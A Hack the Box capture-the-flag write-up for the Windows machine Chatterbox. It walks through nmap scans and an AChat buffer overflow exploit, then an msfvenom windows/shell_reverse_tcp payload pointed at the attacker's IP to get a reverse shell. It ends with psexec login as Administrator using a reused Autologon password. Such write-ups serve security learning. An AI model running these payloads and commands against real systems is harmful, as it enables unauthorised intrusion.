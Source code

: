 ```yaml
---
title: Hack the Box - Chatterbox
date: 2022-10-06 12:00:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Chatterbox](/assets/HackTheBox/Chatterbox/Chatterbox.png)

# Bounty Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.74|Chatterbox|Windows|

## Path to Exploitation

To complete Chatterbox we'll start by leveraging a buffer overflow vulnerability in an outdated chat server with a publicly available exploit. Once we modify the payload in the script we'll get a reverse shell back on our machine. To escalate our privileges, we'll reuse a weak password that we were able to identify and gain access to the administrator account. 

# Chatterbox Enumeration

## Full Port Scan

```shell
$ nmap 10.10.10.74 -p- -oA Chatterbox/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|9255|mon|
|9256|unknown|
|49152|unknown|
|49153|unknown|
|49154|unknown|
|49155|unknown|
|49156|unknown|
|49157|unknown|

## Service Scan

```shell
$ nmap 10.10.10.74 -p 9255,9256,49152,49153,49154,49155,49156,49157 -sC -sV -oA Chatterbox/nmap/service-scan -Pn
```

Which Resulting In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|9255|http|chat system httpd|
|9256|achat|chat system|
|49152|msrpc|Windows RPC|
|49153|msrpc|Windows RPC|
|49154|msrpc|Windows RPC|
|49155|msrpc|Windows RPC|
|49156|msrpc|Windows RPC|
|49157|msrpc|Windows RPC|

# Exploiting the AChat Server

I did a simple google search of this AChat service and found a potential exploit that I could use. The [exploit](https://www.exploit-db.com/exploits/36025)is a remote buffer overflow.

Inside the script we see the command needed to generate the payload

```shell
$ msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

We'll need to modify this command to create a reverse shell payload instead of executing calc.exe

```shell
$ msfvenom -p windows/shell_reverse_tcp -a x86 --platform Windows LHOST=10.10.14.8 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

After creating this payload and modifying the script with it, we can setup a nc listener and launch the exploit

```shell
$ python exploit.py
```

Checking back on the listener we see we have a shell as alfred

![Initial Foothold](/assets/HackTheBox/Chatterbox/initial-foothold.png)

# Privilege Escalation

Running winpeas we identify a set of Autologon credentials

![Credentials](/assets/HackTheBox/Chatterbox/autologon-creds.png)

We can try re-using this password with the administrator account using PsExec

```shell
$ python /home/pharo/.local/bin/psexec.py Administrator:"Welcome1\!"@10.10.10.74
```

![Privilege Escalation](/assets/HackTheBox/Chatterbox/priv-esc.png)

We can see that we now have a session running as SYSTEM.